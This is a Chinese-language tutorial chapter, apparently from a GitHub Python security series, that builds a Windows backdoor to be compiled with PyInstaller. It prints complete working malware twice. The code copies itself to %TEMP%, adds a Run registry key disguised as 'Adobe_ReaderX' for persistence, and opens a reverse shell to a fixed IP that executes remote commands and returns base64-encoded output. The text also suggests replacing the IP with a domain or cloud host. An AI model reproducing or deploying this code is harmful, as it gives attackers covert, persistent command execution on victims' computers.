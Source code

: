 
本节将带着大家利用前面章节所学到的知识使用Python和PyInstalle自己的exp,在前面的[章节][1],讲到了如何把一个python脚本编译成为一个可执行的PE文件,现在让我们利用前面学到的知识快速写一个windows工具脚本.

###开始编码

大家其实会发现,很多恶意中间件最想干的一件事情就是获得被攻击系统的持久性(永久的潜伏在系统里面,永久性后门),像在windows里面最常见的一种方式就是被攻击系统的注册表键值.

`Software\Microsoft\Windows\CurrentVersion\Run`

下面的这一小段代码实现的功能就是把程序拷贝到%TEMP%目录下面并且修改了注册表,当用户登录到系统的时间就会执行这个后门:

```
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# 复制执行文件的到 %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# 查询注册表对应的键值是多少
# 给该后门添加自动执行的权限
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# 设置键值:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass
```

现在我们已经把后门拷贝到了%TEMP%目录下面,并且给它添加了自动执行的权限,下面是一个shell,通过一个Python脚本——[TrustedSec][2]来实现攻击,但是做了一点修改,对传输的文本做了一个base64编码.

```
def shell():
#Base64 编码反向shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main()
```

简单的解释这个程序:当这个程序执行的时候会与攻击者的电脑建立一个连接,但是脚本中的连接是一个固定IP,这里可以修改为一个域名或者是Amazon cloud的服务地址,从下图可以看出攻击者与受害者建立一个网络连接,你也可以注意到两者之间被base64编码后的数据流量包

![malware][3]

下面是完整代码:

```
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# Copy executable to %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# Queries Windows registry for the autorun key value
# Stores the key values in runkey array
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# If the autorun key "Adobe ReaderX" isn't set this will set the key:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass

def shell():
#Base64 encoded reverse shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main()

```


  [1]: https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x4.md
  [2]: https://www.trustedsec.com/files/RevShell_PoC_v1.py
  [3]: https://github.com/smartFlash/pySecurity/blob/master/zh-cn/img/0xc.png

